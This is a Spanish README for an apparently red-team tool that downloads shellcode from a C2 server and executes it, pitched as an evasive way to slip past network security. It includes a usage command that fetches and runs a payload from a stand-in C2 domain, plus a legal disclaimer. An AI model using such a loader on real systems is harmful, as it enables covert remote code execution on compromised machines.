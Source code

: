 # DNSShellcodeLoader

DNSShellcodeLoader es una herramienta diseñada para cargar shellcode de forma remota a través de consultas DNS. Esta herramienta puede ser útil en escenarios de prueba de penetración, investigación de seguridad y desarrollo de exploits.

## Descripción

La carga remota de shellcode a través de consultas DNS proporciona un método discreto y evasivo para obtener y ejecutar código malicioso en sistemas comprometidos. Esta técnica aprovecha el tráfico DNS saliente, que es común y a menudo pasa desapercibido por los sistemas de seguridad de red.

DNSShellcodeLoader simplifica el proceso de descarga y ejecución de shellcode, permitiendo a los usuarios especificar un nombre de dominio del servidor C2 y el nombre del archivo de shellcode. La herramienta generará una URL ofuscada que se utilizará para la descarga de la shellcode. Además, DNSShellcodeLoader incluye técnicas de seguridad para validar la integridad de la shellcode descargada y manejar errores de descarga de manera robusta.

## Uso

Para usar DNSShellcodeLoader, sigue estos pasos:

1. Ejecuta la herramienta proporcionando el nombre de dominio del servidor C2 y el nombre del archivo de shellcode como argumentos de línea de comandos.
    ```
    DNSShellcodeLoader.exe example.com shellcode.bin
    ```

2. La herramienta generará una URL ofuscada para la descarga de la shellcode y realizará la descarga desde el servidor remoto.

3. Una vez descargada la shellcode, se validará su integridad y se ejecutará en el sistema local.

**Nota:** Asegúrate de tener permiso para realizar pruebas de penetración y ejecutar código malicioso en sistemas antes de utilizar esta herramienta en un entorno de producción.

## Aviso legal

Esta herramienta se proporciona únicamente con fines educativos y de investigación. El uso indebido de DNSShellcodeLoader puede ser ilegal y está estrictamente prohibido. El autor y los colaboradores no se hacen responsables del uso indebido de esta herramienta.


